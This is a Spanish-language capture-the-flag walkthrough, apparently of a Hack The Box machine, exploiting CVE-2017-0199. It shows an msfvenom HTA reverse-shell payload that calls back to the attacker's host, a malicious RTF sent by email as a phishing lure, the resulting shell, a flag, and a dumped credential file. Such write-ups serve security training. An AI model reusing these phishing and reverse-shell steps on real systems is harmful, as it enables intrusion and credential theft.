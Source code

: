 En este [artículo](https://packetstormsecurity.com/files/142211/Microsoft-RTF-Remote-Code-Execution.html) explican como es posible ejecutar comandos a través de un archivo RTF. Utilizo este repositiorio de [Github](https://github.com/bhdresh/CVE-2017-0199). Para el payload en formato HTA se puede utilizar ```msfvenom```

```null
msfvenom -l formats | grep hta
    hta-psh
```

```null
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.9 LPORT=443 -f hta-psh -o file.hta
```

```null
python2 cve-2017-0199_toolkit.py -M gen -w file.rtf -u http://10.10.16.9/file.htb -t RTF -x 0
```

Envío el archivo por correo

```null
sendEmail -f rubbx@test.com -t nico@megabank.local -u Pwned -m Pwned -s 10.10.10.77:25 -a file.rtf
Feb 27 18:48:16 localhost sendEmail[24582]: Email was sent successfully!
```

Gano acceso al sistema como ```nico```

```null
rlwrap nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.9] from (UNKNOWN) [10.10.10.77] 54720
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
htb\nico

C:\Windows\system32>
```

Puedo ver la primera flag

```null
C:\Users\nico\Desktop>type user.txt
type user.txt
a3eac7bb36755fabe608bc012dbd9f47
```

# Escalada

En el escritorio de ```nico``` hay credenciales almacenadas en formato SecureString

```null
C:\Users\nico\Desktop>type cred.xml
type cred.xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">HTB\Tom</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692</SS>
    </Props>
```